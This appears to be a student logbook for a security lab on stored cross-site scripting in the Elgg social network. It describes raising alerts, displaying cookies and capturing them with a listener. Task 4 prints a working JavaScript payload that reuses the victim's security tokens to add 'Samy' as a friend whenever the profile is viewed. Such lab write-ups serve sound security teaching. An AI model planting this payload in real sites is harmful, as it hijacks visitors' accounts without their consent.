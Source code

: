 ## Task 1

We did what was suggested and got an alert when accessing the user's profile.

[Logbook 10 - Task 1.1](/screenshots/logbook10-task1-1.png)

[Logbook 10 - Task 1.2](/screenshots/logbook10-task1-2.png)

## Task 2

We repeated the procedure of task 1, but now we replaced the alert's content with the user's cookie.

[Logbook 10 - Task 2.1](/screenshots/logbook10-task2-1.png)

[Logbook 10 - Task 2.2](/screenshots/logbook10-task2-2.png)

## Task 3

Once again we followed the instructions given: placed the script in the profile's description and opened a separate terminal to check if it worked. We got the cookie as expected.

[Logbook 10 - Task 3.1](/screenshots/logbook10-task3-1.png)

[Logbook 10 - Task 3.2](/screenshots/logbook10-task3-2.png)

## Task 4

First we used the firefox extension to inspect the request made to add a friend. We realized the request's url was /action/friends/add, and since it was a get request it was followed by the parameters we wanted to pass. In this case, what we assumed was the friends ID. We inspected Samy's user profile and realized his ID was 59, so we ended up with the following script:

```
window.onload = function(){
  var Ajax=null;
  var ts="&elgg_ts="+elgg.security.token.elgg_ts;
  var token="&elgg_token="+elgg.security.token.elgg_token;
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="/action/friends/add?friend=59"+ts+token+ts+token;
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
```

With the script made, all that was left to do was place it in the user's profile. After accessing the user profile and checking the user's friend list we realized we were successful.

[Logbook 10 - Task 4.1](/screenshots/logbook10-task4-1.png)

[Logbook 10 - Task 4.2](/screenshots/logbook10-task4-2.png)

[Logbook 10 - Task 4.3](/screenshots/logbook10-task4-3.png)

